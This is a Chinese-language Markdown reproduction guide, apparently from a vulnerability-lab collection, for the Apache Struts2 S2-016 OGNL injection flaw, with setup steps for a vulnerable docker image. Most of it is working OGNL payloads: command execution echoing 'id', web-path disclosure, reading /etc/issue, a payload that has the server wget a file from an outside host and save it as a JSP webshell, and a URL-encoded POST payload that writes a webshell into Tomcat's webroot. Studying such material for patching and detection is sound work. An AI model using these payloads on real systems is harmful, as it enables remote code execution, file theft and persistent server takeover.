# S2-016

## 概述

在struts2中，DefaultActionMapper类支持以```"redirect:"、"redirectAction:"、"action:"```作为导航或是重定向前缀，但是这些前缀后面同时可以跟OGNL表达式，由于struts2没有对这些前缀做过滤，导致利用OGNL表达式调用java静态方法执行任意系统命令。

## 环境搭建

	docker pull medicean/vulapps:s_struts2_s2-016
 	docker run -d -p 8082:8080 medicean/vulapps:s_struts2_s2-016


## 影响版本

2.0.0 - 2.3.15

## 复现

**不要忘记对OGNL表达式进行URL编码**

	http://ip:port/XXX.action?action:OGNL expression to execute an OGNL expression.

有时候报错，因为配置文件没有设置 action 映射。



<br/>



<br/>



### poc

	${#a=#context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse').getWriter(),#a.println("HACKER"),#a.close()}



### 1.命令执行

payload1:

	redirect:${#context['xwork.MethodAccessor.denyMethodExecution']=false,#f=#_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),#f.setAccessible(true),#f.set(#_memberAccess,true),@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())}

这种载荷较简洁，此种方式的回显在location中：



payload2:

	redirect:${#context["xwork.MethodAccessor.denyMethodExecution"]=false,#f=#_memberAccess.getClass().getDeclaredField("allowStaticMethodAccess"),#f.setAccessible(true),#f.set(#_memberAccess,true),#a=@java.lang.Runtime@getRuntime().exec("id").getInputStream(),#b=new java.io.InputStreamReader(#a),#c=new java.io.BufferedReader(#b),#d=new char[5000],#c.read(#d),#genxor=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#genxor.println(#d),#genxor.flush(),#genxor.close()}

这种载荷较长，此种回显在响应体里：

burp 截图：



wireshark 截图：



### 2.Get web directory

	redirect:${#req=#context.get('co'+'m.open'+'symphony.xwo'+'rk2.disp'+'atcher.HttpSer'+'vletReq'+'uest'),#resp=#context.get('co'+'m.open'+'symphony.xwo'+'rk2.disp'+'atcher.HttpSer'+'vletRes'+'ponse'),#resp.setCharacterEncoding('UTF-8'),#ot=#resp.getWriter (),#ot.print('web'),#ot.print('path:'),#ot.print(#req.getSession().getServletContext().getRealPath('/')),#ot.flush(),#ot.close()}

burp 截图：



wireshark 截图：




### 3.任意文件读取

	${#d=new java.io.FileReader('/etc/././issue'),#e=new java.io.BufferedReader(#d),#f=#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine(),#e.close(),#d.close(),#a=#context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse'),#b=#a.getWriter(),#b.println(#f),#b.flush(),#b.close()}

view HTTP Stream:



### 4.写webshell

1.wget 写shell：

	redirect:${#a=(new java.lang.ProcessBuilder(new java.lang.String[]{'wget','http://www.url.com/xx.txt','-O','/root/1.jsp'})).start().getInputStream(),#b=new java.io.InputStreamReader(#a),#c=new java.io.BufferedReader(#b),#d=new char[50000],#c.read(#d),#lee=#context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse').getWriter().println(#d),#lee.flush(),#lee.close()}

写入成功：



[Struts2 S2-016/S2-017 命令执行带回显、看web路径、getshell exp整理](https://blog.csdn.net/god_7z1/article/details/9636847)

2.直接 get上传webshell

网上的poc均失败。

http://www.mamicode.com/info-detail-346593.html

3.post上传webshell

	redirect:${%23req%3d%23context.get('com.opensymphony.xwork2.dispatcher.HttpServletRequest'),%23resp%3d%23context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse'),%23resp.getWriter().print(%22o%22),%23resp.getWriter().print(%22k%22),%23resp.getWriter().flush(),%23resp.getWriter().close(),new+java.io.BufferedWriter(new+java.io.FileWriter(%22%2Fusr%2Flocal%2Ftomcat%2Fwebapps%2FROOT%2Fa.jsp%22)).append(%23req.getParameter(%22c%22)).close()}&c=Struts2%20Exploit%20Test

成功。

view HTTP Stream:





4.k8 tools 上传wshell

与 post上传webshell一致。



